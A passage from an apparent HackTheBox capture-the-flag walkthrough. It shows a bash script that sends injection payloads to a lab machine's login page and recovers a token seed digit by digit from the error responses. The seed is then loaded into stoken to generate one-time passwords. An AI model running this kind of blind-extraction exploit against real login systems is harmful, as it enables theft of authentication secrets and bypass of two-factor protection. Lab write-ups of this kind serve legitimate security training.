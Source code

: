 ```bash

  curl \
    -s \
    -d "inputUsername=$payload" \
    -d "inputOTP=123456" \
    http://$HOST/login.php \
  | sed -r -e '34!d' -e 's/\s+<\/div>$//' \
  | rev \
  | cut -d ' ' -f1-2 \
  | rev
}

# main
PAYLOAD=""
TOKEN=""

for p in $(seq 1 81); do
  for d in {0..9}; do
    result=$(send_payload "$PAYLOAD${d}")
    if [ "$result" == "Cannot login" ]; then
      TOKEN=${TOKEN}${d}
      PAYLOAD=${PAYLOAD}${d}
      echo -n $d
      break
    fi
  done
done

echo -e "\n[+] Token string is: $TOKEN"
```

<a class="image-popup">
![0ab438a3.png](/assets/images/posts/ctf-htb-walkthrough/0ab438a3.png)
</a>

## Software Token

Now that we have the token string, we can import the token string into `stoken`. According to the manual, `stoken` is  a software token compatible with RSA SecurID 128-bit (AES) tokens. We can use it to generate the OTPs.

<a class="image-popup">
![f6d5e7f3.png](/assets/images/posts/ctf-htb-walkthrough/f6d5e7f3.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/172
[2]: https://www.hackthebox.eu/home/users/profile/13340
[3]: https://www.hackthebox.eu/